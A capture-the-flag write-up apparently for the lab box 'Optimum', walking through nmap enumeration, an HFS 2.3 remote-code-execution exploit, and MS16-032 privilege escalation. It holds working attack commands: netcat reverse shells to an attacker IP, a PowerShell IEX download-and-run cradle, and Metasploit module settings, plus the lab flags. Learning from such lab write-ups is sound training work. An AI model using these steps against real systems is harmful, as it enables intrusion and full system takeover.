





# Optimum (Easy · Windows)

**Author:** Ph4n3s
**Date:** 2026-10-24
**IP:** 10.129.80.29
**Difficulty:** Easy / Windows

---

## 1. Enumeration

### 1.1 Ping

```
ping -c 1 10.129.80.29
```

```
64 bytes from 10.129.80.29: icmp_seq=1 ttl=127 time=54.6 ms
```

TTL close to 128 → Windows system.

### 1.2 Open ports

```
nmap -p- --open -T4 --min-rate 5000 10.129.80.29
```

```
80/tcp open  http
```

A single open port, a web service.

### 1.3 Technology enumeration

```
nmap -p 80 -sVC -T4 --min-rate 5000 -Pn 10.129.80.29
```

```
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

**HFS (HttpFileServer) 2.3** is a lightweight file server by Rejetto with a known history of critical RCE vulnerabilities.

### 1.4 nmap vuln script

```
nmap -p 80 --script vuln -Pn --min-rate 5000 -T4 10.129.80.29
```

Only returns false positives (Slowloris, generic verb tampering). A `curl -I -v http://10.129.80.29` also adds nothing beyond the already-known `Server: HFS 2.3` header.

### 1.5 Searching for exploits

```
searchsploit HFS 2.3
```

```
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3) | windows/remote/49584.py
```

This corresponds to **CVE-2014-6287**: HFS insecurely interprets certain strings in the search parameters (`%00` / `search=`), which allows injecting and executing system commands through the web server itself.

---

## 2. Exploitation

We copy the exploit and adjust the attacker IP, the victim IP and the listening port. Since the exploit lives in `/usr/share/exploitdb/...` (read-only for a normal user), we need `sudo` to edit it in place:

```bash
sudo sed -i 's/lhost = "10.10.10.1"/lhost = "10.10.16.120"/' /usr/share/exploitdb/exploits/windows/remote/49584.py
sudo sed -i 's/lport = 1111/lport = 9001/' /usr/share/exploitdb/exploits/windows/remote/49584.py
sudo sed -i 's/rhost = "10.10.10.8"/rhost = "10.129.80.29"/' /usr/share/exploitdb/exploits/windows/remote/49584.py
```



With a listener open on the same port configured in the script:

```bash
nc -lvnp 9001
python3 /usr/share/exploitdb/exploits/windows/remote/49584.py
```

The exploit triggers remote execution on the HFS server and we receive a shell as the user `kostas`:



From there, we navigate to `C:\Users\kostas\Desktop` and read the first flag:

```
USER FLAG -> 241941347303caa38c6c2f102e8078b0
```

---

## 3. Privilege escalation

The `kostas` user has no access to the `Administrator` desktop. We review privileges and the system version:

```
whoami /priv
systeminfo
```

The system is **Windows Server 2012 R2 Standard, Build 9600**. We check which patches are installed:

```
systeminfo | findstr /C:"KB"
```

It is missing the **KB3014442** hotfix, which fixes a local privilege escalation vulnerability known as **MS16-032 / CVE-2016-0099** (a flaw in the handling of the Secondary Logon Handle).

### 3.1 First attempt (failed)

We try downloading a compiled binary and `nc.exe` directly onto the Windows machine:

```powershell
wget http://10.10.16.120/nc.exe -OutFile nc.exe
wget http://10.10.16.120/41020.exe -OutFile 41020.exe
.\41020.exe "nc.exe -e cmd.exe 10.10.16.120 9002"
```

The `41020.exe` file did not get served correctly from our Python server (`404 File not found` in the log), so this path is discarded.

### 3.2 Second attempt: Invoke-MS16032.ps1

We look locally for a PowerShell PoC for the same vulnerability:

```
find / -name "Invoke-MS16032.ps1" 2>/dev/null
```

```
/usr/share/powershell-empire/empire/server/data/module_source/privesc/Invoke-MS16032.ps1
```



We copy it to our working directory, append the specific invocation at the end (run `nc.exe` against our IP) and serve both the script and the `nc.exe` binary with an HTTP server:

```bash
cp /usr/share/windows-resources/binaries/nc.exe .
echo 'Invoke-MS16032 -Command "cmd /c C:\Users\kostas\Desktop\nc.exe -e cmd.exe 10.10.16.120 9001"' >> Invoke-MS16032.ps1
python3 -m http.server 80
```

From `kostas`'s shell, we download and run the script in memory:

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.120/Invoke-MS16032.ps1')
```



With a listener open on the specified port, the exploit abuses a mishandled Secondary Logon *handle* to spawn a process with `NT AUTHORITY\SYSTEM` privileges, which runs `nc.exe` and returns a system shell.

We navigate to `C:\Users\Administrator\Desktop` and read the final flag:

```
ROOT FLAG -> 6764c494c49eaefddae6b398024f3344
```



---

## 4. Metasploit alternative

The entire process above (especially the escalation) can be automated with two `msfconsole` modules, avoiding the manual back-and-forth of exploits and binaries:

```
use exploit/windows/http/rejetto_hfs_exec
set RHOST 10.129.80.29
set LHOST 10.10.16.120
set RPORT 80
run
```

This gives a meterpreter session. After migrating to a more stable process (`migrate <pid>`) and backgrounding it (`background`):

```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION <id>
set LHOST 10.10.16.120
run
```

The result is the same: a final session as `NT AUTHORITY\SYSTEM`.

---

## Quick summary

**What the machine was:** an HFS 2.3 file server (Rejetto) with a known RCE, on top of a Windows Server 2012 R2 missing the patch for a local privilege escalation vulnerability.

**Enumeration:** `nmap` → only port 80 → HFS 2.3 version identified → `searchsploit` confirms CVE-2014-6287 (RCE via injection in search parameters).

**Exploitation:** the public exploit (`49584.py`) is adjusted with our IP/port and run directly against the service → shell as `kostas`.

**Privilege escalation:** `systeminfo` reveals the missing KB3014442 patch → vulnerable to MS16-032 (CVE-2016-0099) → after a first failed attempt with a precompiled binary, the PowerShell PoC `Invoke-MS16032.ps1` is used (found in the PowerShell Empire modules), loaded in memory via `IEX` → shell as `NT AUTHORITY\SYSTEM`.

**Key concept learned:** when a compiled exploit fails (due to network issues, antivirus or plain incompatibility), it is worth looking for an alternative implementation of the same CVE in another language or format — here, switching from an `.exe` that never downloaded to a PowerShell script loaded in memory was what unlocked the escalation.

---

**Flags:**
- `kostas/user.txt` → `241941347303caa38c6c2f102e8078b0`
- `root.txt` → `6764c494c49eaefddae6b398024f3344`
